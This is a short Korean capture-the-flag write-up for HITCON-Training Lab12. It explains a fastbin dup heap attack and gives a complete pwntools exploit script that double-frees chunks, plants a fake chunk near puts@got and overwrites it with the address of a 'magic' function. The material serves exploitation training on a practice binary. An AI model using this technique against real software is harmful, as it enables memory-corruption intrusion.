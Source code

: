 ```yaml
---
title: "[HITCON-Training]Lab12"
date: 2019-11-17
ctf: HITCON-Training
layout: post
---
```


fastbin dup문제다.

puts@got의 주소보다 낮은 `0x601ffa` 에 사이즈가 0x60되게 할 수 있는 fake chunk를 만들 수 있다. 그러면 데이터가 쓰여지는 영역은 `0x60200a` 이고 이후 puts@got overwrite해주면 된다. 할당해주는 사이즈는 헤더를 제외한 0x50만큼만 해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./secretgarden')
p = process('./secretgarden')
sla = lambda x,y : p.sendlineafter(x,y)
sa = lambda x,y : p.sendafter(x,y)

def add(size,name,color):
	sla(':','1')
	sla(':',str(size))
	sa(':',name)
	sla(':',color)

def visit():
	sla(':','2')

def remove(idx):
	sla(':','3')
	sla(':',str(idx))

def clean():
	sla(':','4')

def leave():
	sla(':','5')

add(0x50,'a','a')
add(0x50,'b','b')
remove(0)
remove(1)
remove(0)
add(0x50,p64(0x601ffa),'c') # fake chunk
add(0x50,'e','e')
add(0x50,'f','f')
add(0x50,'A'*22 + p64(e.symbols['magic']),'B') # puts@got 

p.interactive()
```

